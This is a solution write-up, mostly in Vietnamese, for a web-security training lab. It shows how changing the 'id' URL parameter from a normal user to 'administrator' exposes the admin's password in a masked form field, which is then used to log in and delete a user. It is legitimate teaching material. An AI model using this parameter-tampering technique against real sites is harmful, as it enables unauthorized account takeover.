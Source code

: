 # Lab: User ID controlled by request parameter with password disclosure

## Question

This lab has user account page that contains the current user's existing password, prefilled in a masked input.

To solve the lab, retrieve the administrator's password, then use it to delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

# Answer

Đăng nhập bằng tài khoản wiener, ta có trang người dùng:

![](images/1731165619750.png)

URL:

```url
https://0ab500c904d021a9810025a7003a0065.web-security-academy.net/my-account?id=wiener
```

Thử đổi phần tham số id wiener thành administrator:

Nice, chúng ta nhận được trang quản trị viên:

![](images/1731165717615.png)

URL:

```url
https://0ab500c904d021a9810025a7003a0065.web-security-academy.net/my-account?id=administrator
```

Tuy nhiên mật khẩu đang bị ẩn, để lấy được mật khẩu, ta kiểm tra form:

```html
<form class="login-form" action="/my-account/change-password" method="POST">
    <br/>
    <label>Password</label>
    <input required type="hidden" name="csrf" value="5jpHJAdoCJ2Vy6A1N6v0JpvbaEZHdhDM">
    <input required type=password name=password value='zemwxgvgkt76949q3biw'/>
    <button class='button' type='submit'> Update password </button>
</form>
```

Chúng ta nhận được mật khẩu admin là: `zemwxgvgkt76949q3biw`

Giờ tiến hành đăng nhập bằng mật khẩu đó:

![](images/1731165887351.png)

Truy cập `Admin panel` và xóa carlos

![](images/1731165918905.png)

Done~
